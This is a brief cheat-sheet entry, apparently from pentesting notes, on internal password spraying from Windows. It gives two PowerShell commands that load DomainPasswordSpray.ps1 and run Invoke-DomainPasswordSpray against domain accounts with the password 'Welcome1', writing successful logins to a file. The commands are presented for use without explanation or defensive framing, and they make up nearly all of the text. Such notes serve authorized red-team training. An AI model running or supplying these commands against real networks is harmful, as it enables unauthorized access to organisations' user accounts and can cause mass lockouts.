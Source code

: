 Internal Password Spraying - from Windows

Using DomainPasswordSpray.ps1
```powershell
Import-Module .\DomainPasswordSpray.ps1
```
```powershell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
























